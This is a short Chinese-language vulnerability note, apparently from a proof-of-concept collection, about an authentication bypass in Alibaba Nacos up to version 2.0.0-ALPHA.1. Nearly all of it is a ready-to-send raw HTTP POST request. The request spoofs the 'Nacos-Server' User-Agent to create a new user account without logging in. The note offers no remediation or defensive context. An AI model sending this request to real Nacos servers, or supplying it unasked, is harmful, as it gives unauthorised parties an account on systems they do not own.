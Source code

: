 # Alibaba Nacos权限认证绕过漏洞

影响版本：  
- Nacos <= 2.0.0-ALPHA.1

发送POST请求，返回码200，创建用户成功
```
POST /nacos/v1/auth/users HTTP/1.1
Host:your-ip:8848
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Nacos-Server
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencode
Content-Length: 27

username=test&password=test
```